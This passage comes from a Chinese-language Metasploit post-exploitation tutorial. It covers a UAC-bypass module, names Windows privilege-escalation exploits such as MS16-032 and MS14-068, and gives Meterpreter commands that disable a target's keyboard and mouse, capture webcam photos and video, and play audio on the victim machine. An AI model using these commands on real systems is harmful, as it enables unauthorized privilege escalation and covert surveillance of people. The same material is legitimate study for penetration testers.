 use exploit/windows/local/bypassuac_eventvwr

set session 1

Exploit

以上的本地提权的模块大家可以本地去测试一下，除了这些某块还有其它的通过直接通过incognito中的add_localgroup_user提升、ms13-081、ms15-051、ms16-032、MS16-016、MS14-068、ms18_8120_win32k_privesc域权限提升等其它的权限提升方法。小白在内网渗透测试的过程中发现一些客户的服务器大多数为2003、2008服务器，很少2012、2016服务器。

内网渗透



------------------------------------------------------------

* # 以下代码谨慎使用 

## uictl开关键盘/鼠标

```
uictl [enable/disable] [keyboard/mouse/all]  #开启或禁止键盘/鼠标
```
```
uictl disable mouse  #禁用鼠标
```
```
uictl disable keyboard  #禁用键盘
```


## webcam摄像头命令

```
webcam_list  #查看摄像头
```
```
webcam_snap   #通过摄像头拍照
```
```
webcam_stream   #通过摄像头开启视频
```
## 在目标系统播放目标文件

```
play /root/1.mp3
```
## 查看 == ls
```
 pwd 
```
## meterpreter load

加载模块

```
load -l             \\查看可以加载的所有模块
```
